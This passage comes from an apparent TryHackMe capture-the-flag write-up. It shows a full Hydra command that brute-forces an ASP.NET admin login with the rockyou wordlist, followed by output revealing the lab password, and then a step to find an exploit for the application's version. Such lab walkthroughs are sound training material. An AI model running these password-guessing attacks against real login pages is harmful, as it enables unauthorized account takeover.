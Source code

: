 ```bash
root@ip-10-10-75-156:~# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.108.43 http-post-form "/Account/login.aspx:__VIEWSTATE=5PmGqXvpbRNd2gFJ3Yjhz3x5CJ%2Bq1NCL2w6AoRehBRaa1PAX%2BzkUs1fa2yZmoYl0IzRpgXXpl15G%2FZJwKsYkuSjdyAeEhRIn8kC6tQcWD0vS33vry7Dlx7KpQjS6Qoco4CTbcRXlztLfIQz0VfSwsQstHFfQ0lxabYGGmsAda8kp1pzd&__EVENTVALIDATION=gfdfokcPIZFhFUsxfPXh8pjS93ogfyXuGDDFHQEsK6ckGeHu0MCwgdVkPH6dinL6MOD7FO0RSGh949T7IyS%2FXMxqgBi7PZbRxFzE4jgcKwLJff0LmpSxhJB36lXZBT0UY5hgzd3gSeX5zTvZ6iNgQpRdqppGQzGm4SXMGhgatQ3zXx6l&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2024-09-22 13:34:56
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://10.10.108.43:80//Account/login.aspx:__VIEWSTATE=5PmGqXvpbRNd2gFJ3Yjhz3x5CJ%2Bq1NCL2w6AoRehBRaa1PAX%2BzkUs1fa2yZmoYl0IzRpgXXpl15G%2FZJwKsYkuSjdyAeEhRIn8kC6tQcWD0vS33vry7Dlx7KpQjS6Qoco4CTbcRXlztLfIQz0VfSwsQstHFfQ0lxabYGGmsAda8kp1pzd&__EVENTVALIDATION=gfdfokcPIZFhFUsxfPXh8pjS93ogfyXuGDDFHQEsK6ckGeHu0MCwgdVkPH6dinL6MOD7FO0RSGh949T7IyS%2FXMxqgBi7PZbRxFzE4jgcKwLJff0LmpSxhJB36lXZBT0UY5hgzd3gSeX5zTvZ6iNgQpRdqppGQzGm4SXMGhgatQ3zXx6l&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
[STATUS] 736.00 tries/min, 736 tries in 00:01h, 14343662 to do in 324:49h, 16 active
[80][http-post-form] host: 10.10.108.43   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2024-09-22 13:36:57
```

The attack worked and you discovered that the password for the admin user is **1qaz2wsx**

## Target Exploitation

Login with the admin credentials and go to the about page.  
Here you can find the version of the web application, with this information you will look for an exising exploit.

![](../assets/images/tryhackme/offensive_pentesting/hackpark/admin1.png)
